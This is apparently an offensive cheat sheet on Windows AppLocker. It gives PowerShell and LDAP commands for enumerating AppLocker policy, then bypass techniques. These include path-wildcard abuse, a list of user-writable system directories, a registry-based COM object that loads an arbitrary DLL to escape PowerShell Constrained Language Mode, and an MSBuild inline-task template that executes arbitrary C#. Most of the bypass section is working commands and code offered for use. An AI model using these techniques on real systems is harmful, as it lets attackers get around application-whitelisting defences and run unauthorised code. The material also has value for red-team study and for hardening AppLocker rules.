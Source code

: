 
#### Enumeration

Local enumeration via registry key and subkeys (appx, exe, dll, msi, etc.)
```powershell
Get-ChildItem 'HKLM:Software\Policies\Microsoft\Windows\SrpV2'

Get-ChildItem 'HKLM:Software\Policies\Microsoft\Windows\SrpV2\Exe'
```

Local enumeration via AppLocker cmdlet
```powershell
$policy = Get-AppLockerPolicy -Effective
$policy.RuleCollections
```

GPO enumeration
```powershell
ldapsearch (objectClass=groupPolicyContainer) --attributes displayName,gPCFileSysPath
```

```powershell
ls [gPCFileSysPath]\Machine

download []\Machine\Registry.pol
```

```powershell
Parse-PolFile -Path .\Desktop\Registry.pol
```

---

#### Bypasses

###### Path Wildcards

An executable in any directory called _App-V_ will be allowed to run per this rule.

```xml
<FilePathRule Id="daecf627-c762-4c7d-849a-7eb9d4e9692e" Name="App-V" Description="" UserOrGroupSid="S-1-1-0" Action="Allow">
	<Conditions>
		<FilePathCondition Path="*\App-V\*"/>
	</Conditions>
</FilePathRule>
```

##### Writable Directories

| Directory                               |
| --------------------------------------- |
| C:\Windows\Tasks                        |
| C:\Windows\Temp                         |
| C:\Windows\tracing                      |
| C:\Windows\System32\spool\PRINTERS      |
| C:\Windows\System32\spool\SERVERS       |
| C:\Windows\System32\spool\drivers\color |

##### PowerShell CLM

 Creating custom COM object that will load an arbitrary DLL into the PowerShell process. 

```powershell
[System.Guid]::NewGuid()

New-Item -Path 'HKCU:Software\Classes\CLSID' -Name '[GUID]'

New-Item -Path 'HKCU:Software\Classes\CLSID\[GUID]' -Name 'InprocServer32' -Value 'C:\Users\pchilds\Desktop\bypass.dll'

New-ItemProperty -Path 'HKCU:Software\Classes\CLSID\[GUID]\InprocServer32' -Name 'ThreadingModel' -Value 'Both'

New-Item -Path 'HKCU:Software\Classes' -Name 'AppLocker.Bypass' -Value 'AppLocker Bypass'

New-Item -Path 'HKCU:Software\Classes\AppLocker.Bypass' -Name 'CLSID' -Value '[GUID]'
```

```powershell
New-Object -ComObject AppLocker.Bypass
```


##### LOLBAS  [MSBuild](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/)

Template for `.csproj` file to run arbitrary C#

```c#
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuild/>
  </Target>
   <UsingTask
    TaskName="MSBuild"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
      <Reference Include="System.Windows.Forms" />		
      <Code Type="Class" Language="cs">
        <![CDATA[
		using Microsoft.Build.Utilities;
		using System.Windows.Forms;

		public class MSBuild : Task
		{
			public override bool Execute()
			{
				MessageBox.Show("Hello World", "AppLocker Bypass");
				return true;
			}
		}
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

Execute
```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Msbuild.exe test.csproj
```